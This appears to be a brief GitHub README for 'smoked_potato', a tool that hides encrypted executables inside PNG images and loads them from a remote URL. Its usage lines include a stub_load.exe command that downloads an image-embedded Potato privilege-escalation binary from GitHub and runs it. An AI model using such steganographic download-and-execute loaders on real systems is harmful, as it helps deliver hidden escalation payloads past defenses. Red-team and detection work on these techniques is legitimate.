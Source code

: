 # smoked_potato
Encrypted binaries inside images... work in progress will be removed soon.

encoder.exe picture.png net_binary.exe pass urlpass/filepass offset output.png

loader.exe url password png_offset pass_offset program_args

stub_write.exe pots.png .\potato_64.exe hellothare https://raw.githubusercontent.com/foxglovesec/Potato/master/source/Potato/UpgradeLog.htm 1995 debug

stub_load.exe https://github.com/vvalien/smoked_potato/raw/master/potato hellothare 6208 1995 mypotato_options go_here however_many you_want

It will use https://raw.githubusercontent.com/foxglovesec/Potato/master/source/Potato/UpgradeLog.htm as the password

stub_load2.cs will now work with .net binarys and also regualar binaries... =]
